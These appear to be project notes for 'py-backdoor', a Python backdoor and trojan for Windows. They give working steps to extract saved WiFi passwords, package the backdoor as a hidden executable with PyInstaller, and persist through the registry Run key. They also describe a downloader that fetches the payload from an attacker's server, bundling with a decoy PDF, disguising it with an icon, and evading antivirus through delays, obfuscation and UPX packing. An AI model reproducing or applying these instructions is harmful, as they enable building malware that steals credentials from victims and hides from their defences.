 ## py-backdoor
- Initial Execution
- ![Screenshot 2024-08-08 125205.png](./assets/Screenshot_2024-08-08_125205_1723103941525_0.png)
- Execution after Boot [ Windows-Persistence]
- ![Screenshot 2024-08-08 125543.png](./assets/Screenshot_2024-08-08_125543_1723103929817_0.png)
### </>
- **WiFi-Password Extraction**
	- To show all networks - ```netsh wlan show profile```
	- To display details of a particular network - ```netsh wlan show profile <network name> key=clear```
### Packaging - Download and Execute
- `Pyinstaller`
	- `pip install pyinstaller` - convert `.py` to executables
		- **note:** architecture of the target and the attack machine must be the same for this to work
		- ```pyinstaller client.py --onefile```
		- ```pyinstaller backdoor.py --onefile --noconsole -n client.exe```
- **Silent Execution**
	- `sys.exit() # reliable exit -> prevents error message from being displayed`
	- To execute with no console`pyinstaller client.py --onefile --noconsole`
		- `subprocess.check_output()` interacts with `stdio` and `stderr` by default
			- to disable interaction
			  ```
			  DEVNULL = open(os.devnull,'wb')
                          # All I/O will be redirected to DEVNULL
			  return subprocess.check_output(command, 
							shell=True,
							stderr=DEVNULL,
							stdin=DEVNULL)
			  ```
- **Persistence**
	- Key - `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`
		- Fields
			- Name - `/v`
			- Type - `/t`
			- Data - `/d`
	- Modify key
		- `reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Scheduler /t REG_SZ /d C:/Users/user1/AppData/Roaming/scheduler.exe /f`
	- **note**- since the backdoor starts every time the computer starts; if the listener is not running error will be raised -> to prevent this add `try-catch` to `main`
- `troj_exp.py`
	- downloads the image file and runs it
	- checks to see if backdoor is already present in `appdata` directory
	- if not present it downloads the file from the attacker's python server where both thr `.exe` and `image.png` are served
- Disadvantages with previous build
	- The target needs an internet connection when running the trojan
	- Malware files have to be hosted
### Packaging - Combine Dummy w/ Backdoor
- ```pyinstaller --add-data "../dummy/image.png:." --onefile --noconsole backdoor.py -n scheduler.exe```
	- `--add-file` - `src-file-path:.` ; `:.` tell pyinstaller to keep the front files in the default application temp directory
	- The code below executes the front files
	  ```
	  file_name = sys._MEIPASS + "\Resume.pdf"
	  subprocess.call(file_name, shell = True)
	  ```
   	- `_MEIPASS` : the path to the _internal folder within the bundle [ in this case, the Non-Malicious PDF ]
   	- The Backdoor also checks if the current process is being run by a `user` or being run automatically on startup; If it is run by a `user` the PDF file is opened 
- **mask executable** with `.ICO`
	- ```pyinstaller --add-data "../dummy/Template.pdf:." --onefile --noconsole backdoor.py -n Template --icon <path-to-ico-file>```
	- ![image.png](./assets/image_1722969936363_0.png)
### AV-Evasion
- Detection Mechanisms
	- Signature-based bypass measures
		- useless operations - loops, arithmetic etc.
		- encoding and obfuscation
	- Behaviour-based bypass measures
		- Delay execution - use `time.sleep()`
		- Run normal trusted operations before malicious execution
- Compress `exe` - `upx`
	- ```./upx /<path-to-backdoor.exe> -o compressed_backdoor.exe```
- `IDAPro` can be used to modify the binary itself
